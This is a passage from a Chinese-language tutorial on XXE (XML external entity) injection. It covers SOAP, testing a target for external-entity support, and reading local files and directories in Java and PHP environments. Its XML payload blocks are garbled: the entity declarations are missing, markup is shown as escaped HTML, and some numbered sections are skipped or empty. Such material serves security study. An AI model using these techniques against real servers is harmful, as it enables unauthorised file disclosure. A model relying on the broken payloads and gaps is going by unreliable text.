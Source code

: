 #### 1.2.5、SOAP

SOAP是一种协议规范，用于在Web上交换结构化和固化的信息。它使用XML格式来编码这些信息，并通过HTTP或HTTPS等协议进行传输。因此，可以简单理解为SOAP是HTTP和XML的组合。

SOAP的优点是它提供了一种标准化的方式来表示Web服务请求和响应，这使得不同平台和应用程序之间的互操作性成为可能。由于它基于XML，因此SOAP消息具有自我描述性，可以包含任何类型的数据，并且可以轻松地在不同的系统和编程语言之间进行转换。

虽然SOAP不是Web服务的专有协议，但它在Web服务领域得到了广泛应用。许多企业和组织使用SOAP来构建他们的分布式系统和应用程序，以实现跨平台和跨网络的数据交换和集成。

注意exp的XML内容要写在SOAP的前面才能正常解析利用：

### 1.3、读取文件

在进行利用之前应该先测试下，目标环境有无回显，是否支持外部实体。

```
检查是否支持外部实体
&lt;?xml version="1.0" encoding="UTF-8"?&gt; 
 
%foo;
]&gt; 
查看你的服务器是否有请求

```

#### 1.3.1、不同平台支持的协议

注意：jdk1.8开始不再支持gopher协议

#### 1.3.2、有回显

##### 1.3.2.1、读取本地文件

1、Java环境下读取文件

netdoc协议和file协议的作用是一样的，都可以读取文件。

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt; 

 
]&gt; 
&lt;user&gt;&lt;username&gt;&amp;xxe;&lt;/username&gt;&lt;password&gt;admin&lt;/password&gt;&lt;/user&gt;

```

2、PHP环境下读取文件

不支持netdoc协议，可以使用file协议读取文件

3、读目录

Java环境下可以使用file协议读取列目录，和ls作用类似

PHP环境下，使用file协议无法读取列目录

5、绕过特殊字符
